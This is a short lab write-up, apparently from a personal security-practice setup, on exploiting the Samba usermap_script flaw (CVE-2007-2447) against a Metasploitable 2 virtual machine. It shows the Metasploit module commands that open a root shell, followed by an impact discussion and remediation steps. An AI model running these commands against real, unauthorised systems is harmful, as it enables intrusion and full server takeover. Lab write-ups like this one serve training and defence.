

# Samba Exploit (CVE-2007-2447)

**Target:** Metasploitable 2, 192.168.56.102, in my own VirtualBox lab

## The vulnerability

Samba smbd 3.X on this box is vulnerable to a 2007 flaw in the "usermap script" option. By putting special characters in the username field when connecting to an anonymous or guest accessible share, you can get the server to run arbitrary shell commands. No valid password is needed.

## Exploitation

I used Metasploit:

    use exploit/multi/samba/usermap_script
    set RHOSTS 192.168.56.102
    set LHOST 192.168.56.101
    run

This opened a command shell. Running `whoami` returned `root`, and `uname -a` showed the box was running a 2008 era Linux kernel, which has its own separate set of known vulnerabilities.

## Impact

Anyone on the same network could take full control of this server in seconds, without ever needing a valid username or password, as long as guest access to a share was enabled. This is a step up in severity from the vsftpd backdoor, since that one at least required finding a specific vulnerable FTP version. This one just requires network access and the default Samba config.

## Fix, in a real environment

* Update Samba to a patched version
* Block SMB ports (139, 445) at the firewall so only trusted machines can reach them
* Disable Samba entirely if the server doesn't need file sharing
